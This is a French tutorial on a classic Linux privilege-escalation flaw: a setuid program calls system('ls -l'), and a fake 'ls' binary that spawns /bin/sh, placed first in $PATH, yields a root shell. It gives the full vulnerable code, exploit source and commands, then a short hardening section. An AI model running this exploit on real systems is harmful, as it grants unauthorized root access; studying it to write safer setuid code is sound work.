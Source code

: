 # System()

## I. Introduction
La fonction `system()` de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer, `system()` utilise la variable d'environnement `$PATH`. Il suffit donc d'agir sur cette variable pour faire executer à `system` le mauvais programme.

## II. Pré-requis
* Un programme suid
* L'argument de `system()` n'est pas un chemin absolu.


```{r, engine='bash'}
aas@ubuntu:~$ cat vuln.c
void main()
{
  system("ls -l");
}
```

Le comportement normal de ce programme est le suivant. Notons le suid activé.


```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
total 48
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
-rws--x--x 1 root root 8600 sept. 16 10:07 vuln
-rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
```

## III. Exploitation
### Création d'un faux programme 'ls' ouvrant un shell.
```{r, engine='bash'}
aas@ubuntu:~$ cat exploit.c 
void main()
{
  char *shell[] = {"/bin/sh",NULL};
  execve(shell[0],shell,NULL);
}
aas@ubuntu:~$ gcc exploit.c -o ls
```


### Modification de $PATH

```{r, engine='bash'}
aas@ubuntu:~$ PATH=.:$PATH
```
On ajoute le repertoire contenant notre faux programme `ls` en première position de la variable `$PATH`

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln 
```
```
# whoami
root
```
Pour executer `ls`, `system()` cherche en premier dans notre repertoire courant au lieu de `/bin/`, lance notre faux `ls`, qui lance un shell root puisque notre programme `vuln` est suid.
    
## IV. Sécurisation
Mettre le chemin absolu avec `system()` ne suffit pas puisqu'il est possible d'utiliser la faille IFS sur certains "anciens" noyaux.  
Il faut donc utiliser les fonctions type `execve()` et bannir `System()`.

## V. Sources
[Lien1](http://gits.hydraze.org/article-14-la-faille-de-system.html)